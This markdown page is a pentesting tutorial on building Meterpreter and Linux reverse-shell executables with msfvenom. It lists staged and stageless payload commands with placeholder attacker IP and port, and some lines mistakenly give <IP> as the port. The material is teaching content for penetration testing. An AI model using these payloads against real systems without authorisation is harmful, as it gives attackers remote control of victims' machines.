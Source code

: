 ```yaml
---
title: Creating a Meterpreter Binary
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 1
---
```


# Creating a Meterpreter Binary

## Introduction


Creating a Meterpreter binary involves generating a payload that, when executed on a target system, establishes a connection back to the attacker's machine, providing a versatile and powerful interface for post-exploitation activities. This process is often a crucial aspect of penetration testing or red teaming exercises.

## Using *msfvenom*

### Windows

#### Staged Payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<IP> -f exe > shell-x86.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Stageless Payload:
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<IP> -f exe > shell-x86.exe

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux

#### Staged Payload:

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Stageless Payload:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Check below link for more exploit and payload usage of *msfvenom:*** 
https://www.offsec.com/metasploit-unleashed/msfvenom/

## Video Demonstration
[<img src="https://img.youtube.com/vi/DvqY8NZIueI/hqdefault.jpg"
/>](https://www.youtube.com/embed/DvqY8NZIueI)

## References
- https://www.offsec.com/metasploit-unleashed/generating-payloads/
- https://www.offsec.com/metasploit-unleashed/msfvenom/
- https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
